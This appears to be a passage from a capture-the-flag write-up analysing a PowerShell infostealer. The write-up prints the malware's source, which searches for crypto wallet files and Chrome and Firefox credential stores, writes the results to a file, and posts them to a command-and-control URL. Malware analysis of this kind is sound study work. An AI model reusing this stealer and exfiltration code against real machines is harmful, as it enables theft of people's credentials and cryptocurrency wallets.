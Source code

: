 
#### Question Two
The downloaded PowerShell from GitHub appears to be malware. This malware attempts to steal information from common browsers. Once it has extracted the information,  it uploads it to a Command and Control(C2) server. In the `Send-InfoToC2Server` function you can find the URL of the C2 server.

```powershell
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
```